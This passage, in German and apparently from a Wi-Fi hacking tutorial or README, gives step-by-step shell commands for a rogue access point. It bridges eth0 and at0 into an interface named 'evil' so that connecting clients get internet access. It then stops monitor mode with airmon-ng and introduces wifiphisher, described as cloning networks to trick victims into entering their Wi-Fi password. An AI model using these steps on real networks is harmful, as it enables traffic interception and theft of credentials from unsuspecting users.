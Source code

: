 
- Internetzugriff schaffen:
```
$ iwconfig
```
```
$ sudo brctl addbr evil
```
```
$ sudo brctl addif evil eth0 	(eth0 = die erste neue verbindung, die bei iwconfig angezeigt wird)
```
```
$ iwconfig (nun müsste auch ein "evil" zu sehen sein)
```


- "evil" mit "at0" verbinden & IP einstellen:
```
$ sudo brctl addif evil at0
```
```
$ sudo ifconfig eth0 0.0.0.0 up
```
```
$ sudo ifconfig at0 0.0.0.0 up
```
```
$ sudo ifconfig evil up
```

```
$ sudo dhclient evil oder $ sudo dhclient3 evil (ausprobieren welches funktioniert)
```

- Client (Handy, Tablet, PC, etc.) verbinden, um Pakete zu senden und erfologreich sein zu können.


----------------------------------------------------------------------------------------------------------------------------------------------------


## stop monitor mode:

```
$ iwconfig
```
```
$ sudo airmon-ng stop wlan0mon
```

- Sollte nach dem Deaktivieren keine Möglichkeit mehr bestehen, sich mit einem WLAN zu verbinden, muss das Gerät ggf. neu gestartet werden.


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


### 4. wifiphisher

Das Tool "wifiphisher" erstellt quasi einen "evil Twin". Das Tool kopiert Netzwerke und wenn ein Opfer versucht,
sich mit einem geklonten Netzwerk zu verbinden, wird das Opfer nach der Eingabe des Passwortes gebeten.
Das Passwort wird dann sofort übertragen.
